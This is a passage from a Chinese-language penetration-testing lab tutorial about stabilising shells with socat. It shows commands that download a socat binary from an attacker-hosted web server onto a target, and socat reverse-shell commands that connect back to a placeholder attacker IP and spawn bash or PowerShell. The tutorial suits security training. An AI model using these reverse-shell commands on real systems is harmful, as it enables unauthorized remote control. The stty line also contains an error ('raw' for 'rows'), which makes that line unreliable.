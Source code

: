 #### 技术 3：Socat 

第三种稳定 shell 的方法是以 Netcat shell 为基础，得到一个更加稳定的 Socat shell。

>**请记住，此技术仅限于 Linux 目标**。因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。


为了实现这种稳定方法，我们首先将一个 [socat 静态编译的二进制文件](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)（一个编译为没有依赖关系的程序版本）传输到目标机器。

如何上传文件到目标机器？

典型的方法是在 socat 二进制文件所在的目录下开启一个 web 服务器（在攻击机器上）：

```bash
sudo python3 -m http.server 80
``` 
若是 python2 的话，则可输入以下命令：
```bash
sudo python -m SimpleHTTPServer
```


然后就可以在目标机器上使用 netcat shell 下载文件。
在 Linux 上，可以使用 `curl` 或 `wget` (`wget <LOCAL-IP>/socat -O /tmp/socat`) 来下载文件。 

为了完整起见：在 Windows CLI 环境中，可以使用 Powershell 完成相同的操作，使用 `Invoke-WebRequest` 或 webrequest 系统类，具体取决于安装的 Powershell 版本（`Invoke-WebRequest -uri <LOCAL-IP>/socat .exe -outfile C:\\Windows\temp\socat.exe`）。 




使用上述任何技术来改变你的终端 tty 大小是一件很有用的事情。这是您的终端在使用常规 shell 时会自动执行的操作。然而，如果您想使用类似文本编辑器的东西来覆盖屏幕上的所有内容，则必须在反向或正向 shell 中手动更改终端 tty 大小。 


首先，打开另一个终端并运行 `stty -a`。并记下输出中 `rows` 和 `columns` 的值： 

![](https://i.imgur.com/v2oeT3e.png)



接下来，在您的 reverse / bind shell 中，键入： `stty raw <number1> 和 stty cols <number2>` 命令
number1、number2 填写您在自己的终端中运行命令获得的数字（上图分别是 45 和 118）。 这将改变终端的注册宽度和高度，从而使得文本编辑器等依赖此类信息准确的程序正确打开。

**回答以下问题：**

1. 您将如何将终端大小更改为 238 列？
2. 在端口 80 上设置 Python3 网络服务器的语法是什么？

### 2.6 Socat
Socat 在某些方面与 netcat 相似，但在许多其他方面有根本的不同。考虑 socat 的最简单方法是将其作为两点之间的连接器。在这个房间内，这基本上是一个监听端口和键盘，但是，它也可以是一个监听端口和一个文件，或者实际上是两个监听端口。 socat 所做的只是提供两点之间的链接——很像 Portal 游戏中的 portal gun！ 

再一次，让我们从反向 shell 开始。

#### 反向 shell
如前所述，socat 的语法比 netcat 的语法难得多。下面是 socat 中基本反向 shell 侦听器的语法：
`socat TCP-L:<端口> -` 
与 socat 一样，这需要两个点（监听端口和标准输入）并将它们连接在一起。生成的 shell 是不稳定的，但这将适用于 Linux 或 Windows，并且等效于 `nc -lvnp <port>`。 
在 Windows 上，我们将使用此命令进行回连：
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> 
EXEC:powershell.exe,pipes 
```    
 “pipes” 选项用于强制 powershell（或 cmd.exe）使用 Unix 风格的标准输入和输出。 
 这是 Linux 目标的等效命令：
```bash
 socat TCP:<LOCAL-IP>:<LOCAL-PORT> 
 EXEC:"bash -li"
```
#### Bind Shells
在 Linux 目标上，我们将使用以下命令：